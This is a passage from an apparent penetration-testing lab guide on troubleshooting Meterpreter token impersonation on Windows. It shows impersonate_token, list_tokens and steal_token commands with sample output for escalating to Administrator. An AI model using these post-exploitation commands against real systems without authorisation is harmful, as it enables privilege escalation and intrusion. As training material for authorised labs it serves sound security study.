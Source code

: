 **Prevention Strategy:**
Always check current privileges and consider process migration before attempting token impersonation.

---

### **❌ Problem 2: Token Impersonation Fails**

**What You See:**
```bash
meterpreter > impersonate_token ATTACKDEFENSE\Administrator
[-] stdapi_sys_config_getuid: Operation failed: Access is denied.
```

**Why This Happens:**
- Incorrect token syntax
- Token no longer available
- Insufficient privileges to impersonate

**Expert Solutions:**
```bash
# Solution 1: Fix syntax with proper escaping
impersonate_token ATTACKDEFENSE\\\\Administrator
# Note: Use four backslashes in some cases

# Solution 2: Try different token format
impersonate_token .\Administrator
# Local account format

# Solution 3: Verify token still exists
list_tokens -u
# Confirm target token is still available

# Solution 4: Try stealing token from process instead
ps | grep -i administrator
steal_token [PID_of_administrator_process]
```

**Troubleshooting Checklist:**
- Verify exact token name from list_tokens output
- Check for typos in domain/username
- Confirm token type (delegation vs impersonation)
- Try alternative impersonation methods

---

### **❌ Problem 3: Privileges Don't Change After Impersonation**

**What You See:**
```bash
meterpreter > impersonate_token DOMAIN\\Administrator
[+] Successfully impersonated user DOMAIN\Administrator
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
```
